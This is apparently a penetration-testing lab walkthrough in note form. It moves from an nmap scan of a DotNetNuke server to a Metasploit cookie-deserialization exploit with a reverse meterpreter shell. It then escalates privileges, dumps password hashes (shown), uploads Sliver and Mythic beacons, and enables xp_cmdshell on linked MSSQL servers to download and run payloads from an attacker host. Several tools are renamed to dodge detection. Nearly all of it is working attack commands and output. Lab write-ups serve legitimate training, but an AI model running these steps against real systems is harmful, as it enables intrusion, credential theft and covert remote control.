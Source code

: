Regain Access:
```

```

Nmap scan below. Looked like a promising first hit.
```
Nmap scan report for 10.10.110.10
Host is up (0.049s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT      STATE  SERVICE VERSION
80/tcp    open   http    Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-robots.txt: 30 disallowed entries (15 shown)
| /admin/ /App_Browsers/ /App_Code/ /App_Data/ 
| /App_GlobalResources/ /bin/ /Components/ /Config/ /contest/ /controls/ 
|_/DesktopModules/ /Documentation/ /HttpModules/ /images/ /Install/
|_http-favicon: Unknown favicon MD5: 2DE6897008EB657D2EC770FE5B909439
|_http-title: Home
443/tcp   closed https
3391/tcp  closed savant
49443/tcp closed unknown
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```



Website is running DNN (dotnetnuke)
![[Pasted image 20250501120838.png]]

Potentially version 7.0
![[Pasted image 20250501121056.png]]

Registering a user tells us that the site admin has to verify and view our request.
![[Pasted image 20250501121310.png]]

Weak version of DNN, maybe google and look for an RCE?
No luck with a dnn cookie deserialization rce
![[Pasted image 20250501122524.png]]

It looks vulnerable, helpful blogpost?

https://pentest-tools.com/blog/exploit-dotnetnuke-cookie-deserialization

Need to change the payload to  

```bash
msfconsole -q
use windows/http/dnn_cookie_deserialization_rce
set lhost tun0
set rhosts 10.10.110.10
set payload payload/windows/meterpreter/reverse_http
# In meterpreter, only privesc if you need to
getsystem
# Might need to repeat it a second time
getsystem
# Use privileged meterpreter to run privileged beacon
# Upload beacon
meterpreter > upload /home/kali/work/prolab/sliver/httpbeacon443.exe C:\\Windows\\Tasks\\handler.exe
meterpreter > 
```
We should be aware of Firewalls. Reverse http is very good at getting around these.
We can use meterpreter getsystem to privesc, and then hashdump to get some hashes,


```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:4e63f2ecad6ac1c809564e26ea764999:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
```

We'll find the first flag in the DotNetNukedirectory

Checking the running processes, we see some SQL stuff running. We can use nmap, netexec, bloodhound to figure out the names of the servers.

Using netexec, we can check for anything in the domain running MSSQL
```bash
netexec mssql 10.9.20.13/24 -u '' -p ''
```
![[Pasted image 20250528223400.png]]

Through the binaries, it's sort of implied that we have permissions to this SQL server. 

We need to use sqlcmd
https://github.com/microsoft/go-sqlcmd/releases/tag/v1.8.2
```bash
wget https://github.com/microsoft/go-sqlcmd/releases/download/v1.8.2/sqlcmd-windows-amd64.zip
unzip sqlcmd-windows-amd64.zip
```

We can upload this using our Mythic C2.

```mythic
upload
```

And then run it. We're using the shell command in Mythic C2, and then passing everything after that as an arguement
```
shell C:\windows\tasks\sqlcmd.exe -S tcp:10.9.20.11,1433 -Q "select @@ version;"
```
It doesn't seem to like the name 'sqlcmd.exe', so we'll rename it.
![[Pasted image 20250528224341.png]]

```
shell C:\windows\tasks\update64.exe -S tcp:10.9.20.11,1433 -Q "select @@ version;"
```

That doesn't work. It turns out that it's actually the cywebdw MSSQL server that we can authenticate to. This makes sense, because we're on a web server. Also note the domain at the end (m3c.local).
```
shell C:\windows\tasks\update64.exe -S CYWEBDW -Q "EXECUTE('SELECT name FROM master.dbo.sysdatabases') AT[m3sqlw.m3c.local];"
```

![[Pasted image 20250528225500.png]]

We can try enabling XP_CMDShell

Ask chatgpt to fix the error and make it workhen the next command
```bash
# Enable xp_cmdshell
shell C:\windows\tasks\update64.exe -S 10.9.20.13 -Q "EXECUTE('sp_configure ''show advanced options'', ''1''') AT[m3sqlw.m3c.local];"

shell C:\windows\tasks\update64.exe -S 10.9.20.13 -Q "EXECUTE('sp_configure ''show advanced options'', ''1''; RECONFIGURE;') AT[m3sqlw.m3c.local];"

shell C:\windows\tasks\update64.exe -S 10.9.20.13 -Q "EXECUTE('sp_configure ''xp_cmdshell'', ''1''') AT[m3sqlw.m3c.local];"

shell C:\windows\tasks\update64.exe -S 10.9.20.13 -Q "EXECUTE('sp_configure ''show advanced options'', ''1''; RECONFIGURE;') AT[m3sqlw.m3c.local];"

# Run Whoami
shell C:\windows\tasks\update64.exe -S 10.9.20.13 -Q "EXECUTE('xp_cmdshell ''whoami''') AT[m3sqlw.m3c.local];"

# Download the Beaco
shell C:\windows\tasks\update64.exe -E -S CYWEBDW -Q "EXECUTE('EXEC xp_cmdshell ''powershell -NoP -NonI -c Invoke-WebRequest -Uri http://10.10.16.157:139/updater64.exe -OutFile c:\windows\tasks\updater64.exe''') AT [m3sqlw.m3c.local];"
```

After a LOT of trouble, we learn that only 80 and 443 are working for traffic. We have to shut down Ligolo to download the file.
```bash
# Download the beacon
shell C:\windows\tasks\update64.exe -E -S CYWEBDW -Q "EXECUTE('EXEC xp_cmdshell ''powershell -NoP -NonI -c Invoke-WebRequest -Uri http://10.10.16.157:443/taskhandler64.exe -OutFile c:\windows\tasks\taskhandler64.exe''') AT [m3sqlw.m3c.local];"

# Run it
shell C:\windows\tasks\update64.exe -E -S CYWEBDW -Q "EXECUTE('EXEC xp_cmdshell ''c:\windows\tasks\taskhandler64.exe''') AT [m3sqlw.m3c.local];"
```

## Sliver Commands
```bash
# Upload sqlcmd
sliver > upload /home/kali/work/prolab/web/sqlcmd.exe C:\\ProgramData\\updater64.exe

# Enable XP_CMDshell
sliver > execute C:\ProgramData\updater64.exe -S 10.9.20.13 -Q "EXECUTE('sp_configure ''show advanced options'', ''1''') AT[m3sqlw.m3c.local];"

# Spawn an interactive shell
sliver > shell
shell > C:\ProgramData\updater64.exe -S 10.9.20.13 -Q "EXECUTE('sp_configure ''show advanced options'', ''1''') AT[m3sqlw.m3c.local];"
shell > C:\ProgramData\updater64.exe -S 10.9.20.13 -Q "EXECUTE('sp_configure ''show advanced options'', ''1''; RECONFIGURE;') AT[m3sqlw.m3c.local];"
shell > C:\ProgramData\updater64.exe -S 10.9.20.13 -Q "EXECUTE('sp_configure ''xp_cmdshell'', ''1''') AT[m3sqlw.m3c.local];"
shell > 
```
